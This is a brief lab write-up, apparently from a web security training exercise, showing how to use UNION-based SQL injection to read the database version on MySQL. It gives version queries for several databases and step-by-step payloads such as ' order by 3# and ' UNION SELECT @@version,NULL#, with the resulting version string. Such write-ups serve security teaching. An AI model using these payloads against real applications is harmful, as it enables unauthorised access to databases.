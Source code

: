 **SQL injection attack, querying the database type and version on MySQL and Microsoft**
*-Goal: display database version string*

*-Hints:*

- Database type: 	*`Query`*
- Microsoft, MySQL: 	*`SELECT @@version`*
- Oracle: 	*`SELECT * FROM v$version`*
- PostgreSQL: 	*`SELECT version()`*

For example, you could use a UNION attack with the following input:
`' UNION SELECT @@version--`

*-Analysis:*
1. Determine the number of the columns:
` ' order by 3#`: we get error, so there are 2 columns
2. Determine the data type of columns:
` ' UNION SELECT 'a','a'#`: no error page, cause two columns are text type
3. Output the version:
` ' UNION SELECT @@version,NULL#`
8.0.39-0ubuntu0.20.04.1

*`LAB SOLVED`*
![alt text](result.png)
